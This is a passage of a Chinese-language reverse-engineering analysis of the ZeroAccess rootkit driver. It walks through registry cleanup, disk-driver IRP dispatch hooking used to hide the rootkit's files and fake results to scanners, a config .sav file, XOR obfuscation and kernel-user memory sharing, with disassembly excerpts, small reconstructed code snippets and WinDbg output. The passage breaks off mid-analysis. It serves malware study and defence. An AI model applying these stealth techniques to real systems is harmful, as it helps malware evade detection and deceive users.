`ResultLength`，一个属于 `OBJECT_ATTRIBUTES` 结构元素的变量名，结构是用来设置属性的，而同一个结构，可能会有数个的对象都使用它。我们接着分析样本：



我们看到 `OBJECT_ATTRIBUTES` 的元素都用 `NULL` 值(`EAX` 中)来填充了，里面只除了 `ObjectName` 里会特别的设置成 `RegistryPath` 外，然后我们还遇到了二个子函数。第一个函数实现了注册表键的枚举，它又接着删掉了它,并返回了

删除行为的结果。后一个函数完成的是差不多的事情，只是这次删的键是:

`\\registry\\MACHINE\\SYSTEM\\CurrentControlSet\\Enum\\root\\LEGACY_\*driver_name\*`

下面我们就看到进去了一个重要的调用:

```
100037A5  mov  Object, eax ; Object = DriverObject
100037AA  call sub_100036CA
```

在这个子函数里面，我们将会看到 `IRP hooking` 的流程。

## `IRP Hooking`

让我们开始看这块代码:



在此我们碰到了 `ZeroAccess Rootkit` 的一个立身根本的功能，闪闪发光亮晶晶的磁盘驱动 `IRP Hooking` 流程。它这样实现的依据： `disk.sys` 是一个大量负责跟硬件交换数据的驱动，每一个操作，`OS` 所处理的所有磁盘储存相关的都必须通过 `Driver/disk`。如果你对这句话所描述的情况不是很输没有个严格的认识，这儿有一个虚拟的 `windows` 磁盘储存结构图可以帮到你：



原图地址在: `http://technet.microsoft.com/en-us/library/ee619734%28WS.10%29.aspx`

红色箭头指出的是 `ZeroAcess` 活着和工作在的地方，你可以看到这已经是磁盘储存驱动们的结构最底层了。硬件的最接近者，最强劲的 `rootkit` 可以存在的地方。`ZeroAccess` 所用的技术是一种大量使用的概念性东西，同时也被发现是最有效果的了。

`IRP Hooking` 的原理是用 `rootkit` 的自定义 `IRP` 处理函数替换原始 `IRP dispatch` 流程。如果一个 `rootkit` 把这 `hook` 成功的干出来了，所有的 `IRP` 都要受控，要被重定位发往 `rootkit` 的会做手脚的代码了。它经常是专门用来监视的，或许也有隐藏功能以及欺骗机子用户的功能。从概念级别说，`rootkit` 操纵数据的类型可以分为三个最概况的主要行为：

* 当输入的数据是要储存和传输的时候，做的是监视工作
* 当数据是要返回给其他进程时，做的是隐藏工作并且也多跟着对进程使用的函数进行的相应修改
* 假数据返回的时候，做的是欺骗用户的工作。

在我们的例子中，返回的数据是被控制用来掩盖住病毒程序在受害机器的存在和活动。


# IRP 处理与驱动入口分析

## 1. IRP 处理函数与分发机制

让我们现在折回到最近一张代码的截图。如你所见，`IRP` 处理函数的地址被插进了 `Object+ 0x38` 的位置（这是个 `DRIVER_OBJECT` 结构的一个指针，待会儿再谈其结构），其指向的元素是 `PDRIVER_DISPATCH` `MajorFunction`。

这是一个保存了驱动的数个 dispatch 流程指针的数组。数组所使用的索引值是 `IRP_MJ_XXX`，它是对应着各个 `IRP` 主函数的宏。

我们看到原始的 `\\Disk` `IRP` dispatch 表被填充成了恶意 `rootkit` 的 dispatch 函数。实质地说，病毒的 `IRP` 处理函数一样需要去处理那个类别数量达到让所有人有深深印象的 `I/O` 请求包的，以期能够全部截获住碰到 `rootkit` 核心文件的请求。如果它判断到 `rootkit` 文件被访问接触到了，它将要返回一个假冒的结果，而且会自己把 `IRP` 标记成完成的状态 (`STATUS`)。

### 填充 IRP 表代码分析

让我们看一下这个整个 `IRP` 表都被填充成 `rootkit` 函数的代码:

```

```

紧跟着的这个函数接受的参数是前面叙述到的 `object` 指针还有个 `PIRP` `IRP`。`PIRP` `IRP` 正是要分派的 `IRP`。

首先，`object` 要先滤过一个 `ZeroAccess` 特别关注的驱动，如果两个 `object` 匹配了，代码就走向了 `calls sub_1000292A`。

这个子函数也接受一个参数，还是 `IRP` 它自身的指针 `PIRP` `IRP`。从子函数返回后，其返回值直接被本处理函数返回去。`sub_1000292A` 的内部，我们碰到了另一个看起来就很标致的 `IRP` 解析流程，这次的代码处理的内容非常直接地分成三类:

* 访问到 `ZeroAccess` 核心文件时的忽悠处理
* 电源 `IRPs`
* 病毒自己的 `IRP` 请求

作忽悠处理的 `I/O` 请求处理起来总是有规范的一个方式，代码的原型看起来总是像:

```
Irp->IoStatus.Status = FakeFailureStatus;
```

这之后还会调用 `IofCompleteRequest` 函数来完成 `IRP`。

电源的 `IRP` 是通过 `PoStartNextPowerIrp` 来管理的，还有相似的其他几个函数。

### 病毒自用 IRP 通道

结尾的地方，我们到了 `ZeroAccess` 自用的 `IRP` 通道。因为按照绿色有利的 `IRP` 传递，也需要标记出来是哪个进程传递来的请求，所以 `rootkit` 对是否为病毒进程的检查也是依此完成的:

```
Irp->Tail.Overlay.OriginalFileObject
```

现在，让我们回到主 `IRP\` 处理函数。在 `object` 没相等的情况中，会先检查下 `object` 的 `CurrentIrpStackLocation` 是否为 `0x16`。`0x16` 的情况下，驱动通过调用 `PoStartNextPowerIrp` 来处理这个 `IRP`。调用这个函数的直接影响是让驱动知道了电源 `IRP` 已经处理完成了。

对于一个驱动而言，必须在当前的 `IRP` 堆栈层次指向的是本驱动的堆栈时调用 `PoStartNextPowerIrp`。调用函数 `PoStartNextPowerIrp` 后立即是一个取 `Irp->Tail.Overlay.CurrentStackLocation` 值的操作（这也是 `IoGetCurrentIrpStackLocation` 的未文档化的实现方式）。

我们在这后面又碰到一个 `PoCallDriver` 把电源 `IRP` 发送到驱动堆栈中更低层驱动的函数，它的后边就是退出 dispatcher 流程了。看完了这条 dispatcher 的代码，我们接着看下一条 dispatcher 程序:

## 2. 条件跳转与状态检查


它的跳转需要满足数个条件，其一是对 `sub_1000273D` 的调用来返回的 `NTSTATUS` 值（#因为 `STATUS` 的错误值是大于 `0x80000000` 的，所以 `jge` 其实是判断是否为标志错误的 `STATUS`），保存了这个返回值的变量被我们叫做 `resStatOperation`。

这个时候，如果那条件跳转判断失败了，我们立即走到了一段结束代码。这儿会设置 `IRP` 的 `IO_STATUS` 成员，并且用 `IofCompleteRequest` 把 `IRP` 标记成完成的。注意，这是对截获的 `IRP` 进行的。#意味着现在是 fake 的情况。

编译出来这段完成 `IRP` 的源码看起来应该会是这个样子的:

```
Irp->IoStatus.Information = 0;   
Irp->IoStatus.Status = resStatOperation;   
IofCompleteRequest(Irp, 1);   
return resStatOperation;   
```

至于那些和隐秘行动、文件隐藏无关的 `IRP`，都是轻而易举的传递给了底层驱动并且是由原始正确的 dispatch 流程处理的。

如你所见的，在这段代码块中，整个分发流程的判断部分基于的是 `CurrentStackLocation` 内的值。#这儿的原文是纰漏的，不仅仅是根据 `CurrentStackLocation` 来处理的，`softworm` 大牛指出问题后也分享了他的分析结果：

> 如果是读写请求，则取 `TRANSFER_PACKET.OriginalIrp`，在 `10006F03` 的调用是个对 `IO_STACK_LOCATION` 的回溯，找到栈顶 `irpSp->FileObject`，构造 `Irp` 取文件全路径计算 Hash，检测是否读写 `RK` 驱动文件，如果是，则对读请求返回原始数据，写请求则仍然写入 `RK` 的东西。

### IRP 分发原理

驱动程序开发中的 `IRP` 分发，如果没接触过的话，这儿可能有点难以理解，我们就在 `IRP` 分发上面也解释一下。

`I/O` 包 (`IRP`) 结构包含了两个部分:

* 结构头
* 可变数量的局部堆栈

`IRP` 的局部堆栈包含着由主函数和辅助构成函数集合，通常其中的重要部分总是主函数部分，原因是主函数标示出来了一个驱动被 `IO` 管理器调用时，对发送过来的 `IRP` 有着怎样的 dispatch 行为。

**IRP Hooking 的结束**

现在到了我们卷土重到 `DriverEntry` 研究的时候了。

## 3. DriverEntry 与对象引用管理

在 `call sub_10003108` 里面我们遇到了一片重要的代码:

```

```

特别尤其重要的 `IoCreateDevice` 的参数，用红色箭头标出来的那个。`FILE_DEVICE_DISK` 可以用类似于操作结构的方式创建一个磁盘出来。如果设备创建成功，驱动对象 (`object`) 就要被转换成一个临时对象。这样做是因为一个临时对象可以等下再删除掉，换句说它是可以从设备命名空间中移除的设备，方法是对它进行解引用。`ObDereferenceObject` 解引用会递减对象的引用计数器减 1。如果对象是创建作（在我们的例子里是转换成）一个临时对象的，当它的引用计数到达 0 的时候，这个对象就可能会被操作系统给删除掉。

就像你可以在代码中看到的，我们在后面紧跟着就看到了一串字符串:

```
\\systemroot\\system32\\config\\12345678.sav
```

让我们接着检查下代码的下一段逻辑:

```

```

完整的字符串 `12345678.sav` 被当做参数传递给了 `call sub_10002F87`。在这个调用里面，我们遇到了一点点很弱的代码混淆。解码的算法是相当的简单，可以通过一个 `XOR` + `ADDTION` 的计算来完成，计算用的 `key` 是从一个 windows 注册表值中提出来的。

提一下，当在逆向一个内核模式的 `rootkit` 时候，在你看到 `ZwCreateFile` 的时候，就要检查在这个调用的第四个参数，它是个 `IO_STATUS_BLOCK` 结构的指针。它包含了函数所投递的 `IRP` 最终的完成状态，意味着你可以通过它来判断出文件操作是否已经完成，创建/打开/覆盖/替换/等等的操作。

现在分析到了这么远的地方，我们可以很确定猜到这个随机的 `.sav` 文件是被当做一个配置文件来使用的了。这是个扩展用来保存信息的文件，肯定还有一个对于原始属性干净、未感染的系统驱动备份出来。当一个用户或一个文件扫描器访问到被感染的驱动时，因为 `ZeroAccess` 在底层截断了设备驱动，文件将会不动声色的换成原始的一个。这将彻头彻尾的欺骗住任何一个去检查系统驱动的进程。

让我们继续看我们的这段代码。正如你看到的，在这儿 `rootkit` 检查的东西正是和上述一样的思路，它把 `IoStatusBlock->Information` 和一个 `0x2` 的值做比较。这个值代表的是 `FILE_CREATE`。如果一个文件有 `FILE_CREATE` 状态，则 `rootkit` 会调用 `ZwFsControlCode` 给这个文件发送一个 `FSCTL_SET_COMPRESSION` 的控制码。

之后的 `ZwSetInformationFile` 函数的作用是用来改变一个文件对象 (`file object`) 的几种文件信息。在我们的例子中，我们的 `FileInformationClass` 中放的是 `FileEndOfFileInformation`，修改的是当前文件结束位置的信息，具体位置是由 `FILE_END_OF_FILE_INFORMATION` 的结构提供的。这个操作既可以用来打断一个文件，也可以用来扩张它的大小。调用者必须带着 `FILE_WRITE_DATA` 标志打开一个文件以让文件结尾可以被设置，标记是在打开文件的 `DesiredAccess` 参数中设置的。

让我们继续看下一段代码:

```

```

`ObReferenceObjectByHandle` 函数提供的是对一个对象句柄访问的验证，同时，如果这个访问是被授权的，它会返回指向对象的结构体的指针。在解引用了我们的文件对象后，通过调用 `IoGetRelatedDeviceObject` 我们就能得到和它相关的设备对象的指针。

若你还记得，`rootkit` 自己的设备驱动是用 `FILE_DEVICE_DISK` 建立的，那你应很容易猜到那设备就代表着 `rootkit` 要操作的那一个磁盘卷。

就跟你从代码看到的一样，这儿是一个对 `deviceObj->SectorSize` 的引用。

借助于 `DEVICE_OBJECT` 的文档说明，我们可以了解到关于 `SectorSize` 成员的一些信息:

> "这个成员储存了卷的每扇区大小，以字节来表达。`I/O` 管理器使用这个元素在中间缓冲被禁止的时候，确定所有的发出的读操作、写操作还有文件位置设置操作的内容都是对齐着的。在创建一个设备对象时，系统默认的每扇区字节被默认使用。"

`DISK` 的结构将服务于 `rootkit`，并提供给 `rootkit` 一个简便够用的方法来管理它的文件，也即是，它可以把自己的那个 `rootkit` 设备当做一个普通磁盘来使用。

在这儿如果你回头去看一下，这个驱动的 `DriverEntry` 开始部分代码的话，会发现我们有遇到一个 `'.'` 字符的检查，找到的话就按照我们上面所跟踪的流程来执行，但找不到的时候，代码的执行就跳到下面的最后一片代码了:

```

```

上面的一段完全注释好了的。`EBX` 指向的字符串是随机选择的那个系统驱动，`call sub_10002F87` 从一个注册表键中折腾出来一个 `"Snifer67"` 的字符串。下面你可以看到一个我们改名做 `HashCheck` 的函数。它需要三个参数，`HANDLE` `SourceString`, `int`, `PULONG` `HashValue`:

```

```

如果 hash 效验出错了，就跳转到 `call sub_100036E9` 结束掉驱动的初始化，里面主要的是把 `MDL` 释放的操作。没出错的话，代码的执行就重定向到 `call sub_100022C3` 中了，其时如下所示:

```

```

## 4. 内存共享机制

我们在 `sub_100022C3` 遇到的这个东西是一个内核模式和用户模式之间互动的方法，叫做内存共享。借助内存共享，可以把内核内存映射到用户模式重。有二个常用的用来利用内心共享的技术，它们是：

* 共享对象和共享映射 (`view`)
* 映射内部缓冲

我们早就见过 `Section Object` 怎么在用户模式工作了，在内核模式中概念是没改变多少的。改变的是这次我们要处理的是 `MDL` 管理的内存了，我们还需要些额外的安全检查，因为在内核和用户空间之间共享可能会成为一个非常危险的行为。

在打开一个 `Section` 后，通过 `ZwMapViewOfSection` 来建立一个映射。我们假设你现在很想要知道这个 `Section` 是在哪儿打开了，那么一个快速的查看方法就是打开句柄表来看看。要打开它，第一步就是定位到句柄是在哪儿储存的。简单的把你的调试器的内存窗口设置到现实 `ZwOpenSection` 的 `SectionHandle` 参数即可。

打开一个 `Section` 如果成功了，在内存中你将可以看到对应的句柄，与此同时我们还可以查询出关于这个句柄的更详细更多信息。你的调试器的语法可能是:

* `Syser` 的: `handle handle_number`
* `WinDbg` 的: `!handle handle_number ff`

这儿是一个 `WinDbg` 的输出样例:

```
> !handle 1c0 ff

Handle 1c0  
Type Section  
Attributes 0  
GrantedAccess 0×6:  
None  
MapWrite,MapRead  
HandleCount 22  
PointerCount 24  
Name \\BaseNamedObjects\\windows_shell_global_counters  
Object Specific Information
```

在我们的情况中，是在之前随机选中的那个驱动打开的 `Section Object` 和映射。这儿有一点很关键要搞清楚，`ZwMapViewOfSection` 映射到用户空间时，是映射到特定一个进程的内存空间中的。把驱动的映像 (`view`) 映射到系统进程中，可以避免用户进程篡改内存的内容，而且也让它只能在内核模式访问。

现在让我们接着看下一个 call 里的代码:

```

```

`MmAllocatePagesForMdl` 函数申请一片用 0 填充的，未分页的，物理内存页面给一个 `MDL`。若申请成功了，在在 `ESI` 中我们就得到了 `MDL` 的指针，`MmMapLockedPagesSpecifyCache` 使用它来映射物理内存页面，同时允许调用者设置所映射内存的缓存方式。参数 `BaseAddress` 指定了把 `MDL` 映射到的用户地址的开始位置。当这个参数为 `NULL` 时，系统将会选择映射的开始地址。`EBX` 中包含的是映射页面后基地址的返回值。在这的后面，是一个标准的 `memcpy`，反汇编器已经在截图中注释好了。

这个调用的返回值是 `true/false`，返回值是由 `ZwMapViewOfSection` 的成功和失败来决定的。

有一个函数失败了的话，代码的执行就回跳转到 `MDL` 清理函数的部分。清理掉之前所述的那些 `MDL` 内存，然后退出驱动的初始化。全都成功的时候，我们就航行到了这个驱动的下一片区域了。再一次的，让我们澄清下全部的这个在随机选中的驱动中进行的操作都是为了一个目的，为了给 `ZeroAccess` 作者所交付过来的病毒们接种，还有确保 `rootkit` 在任何一种清理和杀毒操作下幸存下来。

让我们阅读下一段代码吧:

```

```

## 5. 病毒逆向与对象引用

这一块满含病毒逆向工作者感兴趣的函数。让我们先把第一个 call 打量一番，`call sub_10002D9F`，采用了一个之前在分析映像文件时已经接触过了的 `SourceString`。进一步的分析如下所示:

```

```

你应当可以理解这一段代码是在干什么，它和之前看过的内存共享映像文件的流程是相当类似的。这一次 `SectionObject` 是使给了随机选中的那个驱动。（#和上面的映射连接了）

现在让我们开始研究第二个调用的内容吧:

```

```

这是一片很有意思的代码。`ObReferenceObjectByName` 是一个未文档化的内核导出函数，其声明格式如下:

```
NTSYSAPI NTSTATUS NTAPI ObReferenceObjectByName(
    PUNICODE_STRING ObjectName,
    ULONG Attributes,
    PACCESS_STATE AccessState,
    ACCESS_MASK DesiredAccess,
    POBJECT_TYPE ObjectType,
    KPROCESSOR_MODE AccessMode,
    PVOID ParseContext OPTIONAL,
    OUT PVOID* Object);
```

这个函数接受一个对象的名称作参数，然后返回一个指向对象结构的指针，同时修改引用计数加一，想要得到的对象的类型是由第五个参数说明的（`POBJECT_TYPE`）。在我们的实例中，它会是 `IoDriverObjectType`。


# 高级文档排版：ZeroAccess Rootkit 分析

`ObReferenceObjectByName` 是一个很便利的函数，在 rootkit 里已经广泛应用于盗取对象和在 `IRP` 的 `Hooking` 中来调用函数了。对照实际情况，我们有发现一个盗取对象的意图。你可能还记得在我们的分析中早就发生了一个 `IRP` `Hook` 了。rootkit 据此函数能够查找到一个驱动所对应的驱动对象结构 (`DRIVER_OBJECT`) 的内存指针，接着它就可以用来访问、检查、修改这个驱动的结构了。

来，让我们看一段没注释的内容。我们想给你展现 `WinDbg` 加上 `-b` 选项时的输出，以及 `DRIVER_OBJECT` 的结构：

```
0:001> dt nt!_DRIVER_OBJECT -b

ntdll!_DRIVER_OBJECT

+0x000 Type : Int2B
+0x002 Size : Int2B
+0x004 DeviceObject : Ptr32
+0x008 Flags : Uint4B
+0x00c DriverStart : Ptr32
+0x010 DriverSize : Uint4B
+0x014 DriverSection : Ptr32
+0x018 DriverExtension : Ptr32
+0x01c DriverName : _UNICODE_STRING
+0x000 Length : Uint2B
+0x002 MaximumLength : Uint2B
+0x004 Buffer : Ptr32
+0x024 HardwareDatabase : Ptr32
+0x028 FastIoDispatch : Ptr32
+0x02c DriverInit : Ptr32
+0x030 DriverStartIo : Ptr32
+0x034 DriverUnload : Ptr32
+0x038 MajorFunction : Ptr32
```

这代码挺好理解的。从基地址加上一个额外的值，就可以指到想要的 `DRIVER_OBJECT` 元素，蓝色标出来的几项是 rootkit 替换了的。

要是看看 `\\Driver\\Disk` 的最后一项的话，我们可以对蓝色有一个更清晰的认识的（你可以通过一个进行中的调试活动来查看）。

在现在分析的函数最后面，它又调用了个 `ObfDereferenceObject`，其目的是解引用一次驱动对象，前面对 `ObReferenceObjectByName` 的调用会修改引用计数。我们想要在这特地表示一下的是，`ObDereferenceObject` 中的 `"f"`，这个 `"f"`，是指它是一个优化了的未文档化的版本，在对它的调用前面，我们并没有看到典型的函数调用入参过程。它是一个 `fastcall` 的调用约定的函数。

眼前让我们继续看下一个调用吧：

